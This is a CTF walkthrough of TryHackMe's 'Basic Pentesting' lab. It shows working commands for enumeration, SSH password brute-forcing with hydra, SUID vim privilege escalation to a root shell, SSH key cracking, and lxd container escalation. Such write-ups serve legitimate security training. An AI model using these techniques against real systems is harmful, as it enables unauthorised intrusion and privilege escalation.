# Basic Pentesting
**Date:** December 9th 2022

**Author:** j.info

**Link:** [**Basic Pentesting**](https://tryhackme.com/room/basicpentestingjt) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>



<br>

## Objectives
- What is the name of the hidden directory on the web server(enter name without /)?
- What is the username?
- What is the password?
- What service do you use to access the server(answer in abbreviation in all caps)?
- What is the name of the other user you found(all lower case)?
- What is the final password you obtain?

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2022-10-10T19:02:58-04:00
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http    Apache Tomcat 9.0.7
|_http-title: Apache Tomcat/9.0.7
```

That answers the fouth question, ssh is used to access the server.

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 30 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 158]
/development          (Status: 200) [Size: 1129]
```

That answers our first question.

I also scanned port 8080 since it's running Apache Tomcat:

```
/docs                 (Status: 200) [Size: 17008]
/examples             (Status: 200) [Size: 1126] 
/manager              (Status: 401) [Size: 2473]
```

<br>

## Website Digging

Visiting the main page just displays a message stating that the website is undergoing maintenance and to check back later.

Viewing the page source hints at the hidden development directory that we already found:

```html
<html>

<h1>Undergoing maintenance</h1>

<h4>Please check back later</h4>

<!-- Check our dev note section if you need to know what to work on. -->

</html>
```

Checking out /development:



j.txt:

```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have
any weak credentials, and I was able to crack your hash really easily. You
know our password policy, so please follow it? Change that password ASAP.

-K
```

That sounds promising. Looking at dev.txt:

```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool!
I think it might be neat to host that on this server too. Haven't made any
real web apps yet, but I have tried that example you get to show off how it
works (and it's the REST version of the example!). Oh, and right now I'm
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

Checking out port 8080 gives us the default Apache Tomcat/9.0.7 webpage.

Looking at 8080/manager:



We're not sure on a username yet, we only have J and K as hints so let's look around elsewhere and see if we can find a username.

<br>

## SMB Digging

Our nmap scan showed that we could access SMB without authentication so I decide to try that next. We find an Anonymous share when listing the shares on the server:

`smbclient -L //$ip`



Connecting over to look at the files:

`smbclient -N //$ip/Anonymous`



Alright, we found out who the J and K were from the website files. We also know that Jan has a weak password hash so we should go after that one first more than likely. This also answers the second and fifth questions.

<br>

## System Access

I fire up hydra and see if we can ssh in. It takes a bit, but eventually it does work. It also answers the third question.

`hydra -l jan -P rockyou.txt $ip ssh`



<br>

## System Enumeration

I check out `sudo -l` but we can't run anything as root that way.

Looking at `getcap -r / 2>/dev/null` doesn't give us any capabilities that we can use for privilege escalation.

Our `id` information:

```
uid=1001(jan) gid=1001(jan) groups=1001(jan)
```

Looking for SUID files with `find / -perm /4000 2>/dev/null` shows something out of the ordinary. /usr/bin/vim.basic is on the list. Looking it up on GTFOBins shows us:



<br>

## Root

I try the method listed but it's not compiled with Python support. It is however compiled with Python3 support, so running the same command but using :py3 gets us root:

`vim -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")`



We still don't have the final password though so there must be something we missed. We haven't looked at any of Kay's files yet, lets start there.

In her home directory is a file called pass.bak, and it contains the answer to our final question.

<br>

## Bonus

If we had not found the vim.basic escalation path there is also a private ssh key in Kay's .ssh directory. I downloaded it and ran it through ssh2john, then cracked the hash with john the ripper, and finally connected over to retrieve the pass.bak:



And then checking `sudo -l` and entering that password shows we have unrestricted sudo access, which I use to spawn a root shell:



<br>

## Another Bonus

If we didn't have full sudo privileges we still could have gotten access to the file system as root since we have access to lxc:

`id`

```
uid=1000(kay) gid=1000(kay) groups=1000(kay),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

On your system build a malicious alpine container:

`git clone https://github.com/saghul/lxd-alpine-builder.git`

`cd lxd-alpine-builder`

`sudo ./build-alpine`

You should have a file similar to this:

```
alpine-v3.17-x86_64-20221209_2128.tar.gz
```

Transfer that over to the target system and then run the following commands:



And then:



<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding an open **smb share** and using **smbclient** to download a file that gives us usernames
- Using **hydra** against one of those usernames to brute force our way into the system via SSH
- Escalating to root with **vim.basic** because it had **SUID** set
- Finding a **private ssh key** on the system and using **ssh2john** and **John the Ripper** to crack the password on the key and connect over as that user
- Creating a **malicious alpine container** and using **lxc** with it to gain unrestricted access to the file system

<br>

Many thanks to:
- [**ashu**](https://tryhackme.com/p/ashu) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)